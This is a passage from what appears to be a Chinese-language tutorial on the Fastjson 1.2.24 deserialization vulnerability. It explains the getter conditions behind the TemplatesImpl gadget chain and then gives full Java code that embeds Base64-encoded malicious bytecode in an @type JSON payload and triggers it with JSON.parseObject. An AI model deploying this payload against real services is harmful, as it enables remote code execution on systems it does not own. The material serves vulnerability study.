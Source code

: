 满足条件的getter：

- 非静态方法
- 无参数
- **返回值类型继承自Collection或Map或AtomicBoolean或AtomicInteger或AtomicLong**



再去找另一个调用了`newInstance`方法的函数，找到`getOutputProperties`，这个是满足条件的，因为`Properties`实现了`Map`接口

![image-20251004185440506](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96fastjson%E7%AF%8702-Fastjson-1.2.24%20/image-20251004185440506.png)

并且还需要满足`TemplatesImpl`链中的那些条件,`_name!=null`,`_bytecodes!=null`,`_tfactory为TransformFactoryImpl对象`

## 完整代码

`readClass` 作用：把指定文件（通常是 `.class`）读成字节并返回其 Base64 表示，方便嵌入 JSON。

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import java.io.*;


public class Main {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        }catch (IOException o){
            o.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }
    public static void main(String[] args) {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        //evilClassPath是字节码文件
        final String evilClassPath = "E:\\迅雷下载\\org\\example\\Calc.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\n" +
                "  \"@type\": \""+NASTY_CLASS+"\",\n" +
                "  \"_bytecodes\": [\n" +
                "    \""+evilCode+"\"\n" +
                "  ], \n" +
                "  \"_name\": \"a.b\",\n" +
                "  \"_tfactory\": {},\n" +
                "  \"_outputProperties\": {}\n" +
                "}";
        System.out.println(text1);
        
        //反序列化
        Object obj = JSON.parseObject(text1, Object.class, Feature.SupportNonPublicField);
    }

}
```
